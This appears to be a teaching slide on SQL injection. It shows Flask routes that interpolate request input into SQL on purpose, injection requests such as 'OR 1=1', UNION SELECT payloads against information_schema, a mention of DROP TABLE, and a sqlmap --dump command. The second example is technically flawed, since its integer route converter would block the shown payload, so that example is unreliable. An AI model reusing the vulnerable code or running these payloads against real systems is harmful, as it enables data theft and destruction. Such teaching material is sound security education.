

SQL Injection attacks in practice

# GET http://students.com/?studentId=117 OR 1=1

@app.route(“/”, methods=[“GET”])
def search_users():
	studentId = request.args.get(“studentId”, ''”)
	conn = get_db_connection()
	cur = conn.execute(f"SELECT * FROM students WHERE studentId = {studentId}")
	students = [dict(row) for row in cur.fetchall()]
	conn.close()
	return jsonify(students)
# GET http://example.com/users/420 OR 1=1 --

@app.route(“/users/<int:user_id>”, methods=[“GET”])
def get_user(user_id):
	conn = get_db_connection()
	cur = conn.execute(f"SELECT * FROM users WHERE id = {user_id} LIMIT 1")
	users = [dict(row) for row in cur.fetchall()]
	conn.close()
	return jsonify(users)
Techniques and queries
'UNION SELECT column_name FROM information_schema.columns WHERE table_name= 'users' –
'UNION SELECT table_name FROM information_schema.tables --
INSERT command to modify data, DROP TABLE students to destroy data…
sqlmap -u 'http://students.com/?studentId=117' -p studentId --dump